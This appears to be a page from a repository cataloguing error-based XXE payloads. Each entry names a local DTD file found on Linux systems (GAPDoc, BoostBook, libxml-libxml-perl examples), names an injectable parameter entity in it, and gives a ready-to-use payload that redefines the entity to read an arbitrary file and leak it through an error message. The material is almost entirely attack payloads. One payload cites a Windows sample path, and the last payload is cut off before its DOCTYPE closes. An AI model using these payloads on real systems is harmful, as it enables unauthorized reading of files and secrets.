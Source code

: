 **DTD File:** `/usr/lib/gap/pkg/GAPDoc-1.6.2/bibxmlext.dtd`

**Injectable entity:** `n.InProceedings`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/lib/gap/pkg/GAPDoc-1.6.2/bibxmlext.dtd">

    <!ENTITY % n.InProceedings 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** 
 - `/usr/share/boostbook/dtd/1.1/boostbook.dtd`
 - `/usr/share/boostbook/dtd/boostbook.dtd`

**Injectable entity:** `boost.common.attrib`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Code\projects\dtd-finder\samples\new\boostbook.dtd">

    <!ENTITY % boost.common.attrib '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/doc/libxml-libxml-perl/examples/complex/complex.dtd`

**Injectable entity:** `f`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/doc/libxml-libxml-perl/examples/complex/complex.dtd">

    <!ENTITY % f '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
```